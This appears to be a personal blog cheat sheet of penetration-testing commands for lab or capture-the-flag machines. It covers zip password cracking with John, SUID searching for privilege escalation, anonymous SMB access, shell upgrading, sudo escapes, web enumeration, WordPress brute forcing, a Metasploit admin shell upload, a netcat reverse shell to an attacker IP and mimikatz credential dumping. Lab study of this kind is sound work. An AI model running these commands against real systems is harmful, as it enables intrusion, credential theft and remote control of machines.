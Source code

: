 ```yaml
---
title: 靶机日记 | ToolKits
categories:
  - Technical
tags:
  - Digilal Design
  - EEEE
date: 2021-02-25 14:14:24
---
```


### 1. Crack the Passwd of Zip Package

```bash
zip2john backup.zip > passwd.txt
john passwd.txt
```

### 2. Find

1. Find file with suid

```bash
find / -perm -u=s 2>/dev/null
```

If we got it ，we can go to [GTFobins](https://gtfobins.github.io) to check out whether it is possible for Privilege Escalation

2. Find file for special group

``` bash
find / -type f -group bugtracker 2>/dev/null
```

3. Find file

```bash
# linux
find / -name "user.txt"
```

```powershell
# powershell
Get-ChildItem  -Recurse –Filter user.txt
```

<!-- more -->

### 3. smb

If the target machine with port 445 opened, we can check out the file under directory if no auth：

```bash
smbclient -N -L ////ip
```

and then dump file from directory:

```bash
smbclient  \\\\10.10.10.27\\backup/
get filename
```

### 4. Upgrade Shell to tty

```bash
SHELL=/bin/bash script -q /dev/null
# or
python3 -c "import pty;pty.spawn('/bin/bash')"
```

### 5. Sudo

view the special permissions of current role:

```bash
sudo -l
```

When a command can be executed with sudo , we can use this command to open a new bash shell to get root privilege .

For example,  `! /bin/bash` in Vim.

### 6. Website

Search for subdirectory

```bash
gobuster dir -u http://10.10.10.29 -w /usr/share/wordlists/dirb/big.txt
```

Analyze

```bash
nikto -host http://10.10.10.28 -o _28.html
```

#### WordPress

Enumerate accounts and Brute Force the password

```bash
wpscan --url http://10.10.10.29/wordpress --enumerate
```

```bash
wpscan --url http://10.10.10.29/wordpress -U users.txt -P backupPasswords
```

use metasploit

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

### NetCat

Reverse:

```bash
nc.exe -a "-e cmd.exe 10.10.16.4 7777"
```

Listen:

```zsh
nc -lvpn 4444
```

### Dump Cached password

```poershell
./mimikatz.exe
```

